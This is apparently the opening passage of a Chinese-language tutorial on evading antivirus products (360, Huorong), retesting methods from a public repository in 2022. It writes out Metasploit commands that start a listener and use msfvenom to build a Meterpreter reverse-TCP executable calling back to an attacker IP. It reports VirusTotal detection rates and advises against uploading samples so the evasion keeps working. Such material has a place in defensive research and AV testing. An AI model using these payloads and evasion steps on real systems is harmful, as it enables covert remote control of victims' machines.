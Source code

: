 攻击机：192.168.174.128

免杀方法：

- 此处仅介绍msf、Evasion、Veil、Venom、C/C++ Shellcode，其余方法参见原po：https://github.com/TideSec/BypassAntiVirus

原po各杀软版本：

- 360杀毒版本5.0.0.8160(2019.12.12)
- 火绒版本5.0.33.13(2019.12.12)
- 360安全卫士12.0.0.2001(2019.12.17)

本文各杀软版本：

- 火绒版本5.0.68.2(2022.05.26)
- 360安全卫士13.0.0.2003(2022.05.26)

测试平台：

- Virustotal，以下简称VT。VT查杀率代表静态查杀能力。

【注意】

- 如果是自己做免杀，建议测试机不要连互联网，更不要上传到virustotal.com类似的平台上。

- 不要上传！
- 不要上传！
- 不要上传！
- 上传一次以后，你自己辛辛苦苦写的免杀可能就不再免杀了。

## Metasploit自带免杀

Payload均使用MSF的windows/meterperter/reverse_tcp模块生成。

攻击机MSF监听6666端口：

```
msf6 > use exploits/multi/handler
msf6 exploit(multi/handler) > set LHOST 192.168.174.128
msf6 exploit(multi/handler) > set LPORT 6666
msf6 exploit(multi/handler) > run
```

### 原生态payload(VT查杀率51/69)

MSF生成原始payload：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.174.128 LPORT=6666 -f exe -o /mnt/hgfs/Share/payload1.exe
```

![image-20220526190423066](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261904148.png)

360和火绒都能查杀。

在virustotal.com上查杀率为51/69（原po为53/69）。

360：
